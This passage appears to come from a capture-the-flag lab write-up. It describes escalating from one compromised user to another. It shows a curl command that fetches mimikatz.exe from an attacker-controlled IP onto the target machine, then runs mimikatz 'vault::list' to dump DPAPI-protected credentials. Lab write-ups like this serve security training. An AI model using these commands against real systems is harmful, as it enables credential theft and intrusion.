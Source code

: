 ![Shell as ppots](/assets/img/Office/Office_27.png)



### Moving to hhogan user

While enumerating using the newly obtained **ppots** user we noticed this user had access to some credentials hidden within dpapi.To find these we first need to transfer mimikatz to the machine. if you don't already have mimikatz you can get it from the [github](https://github.com/ParrotSec/mimikatz) repo.

```
curl "http://10.10.16.67/mimikatz.exe" -o mimikatz.exe
```

Next we can list all credentials with the vault::list command

```
.\mimikatz.exe "vault::list"
```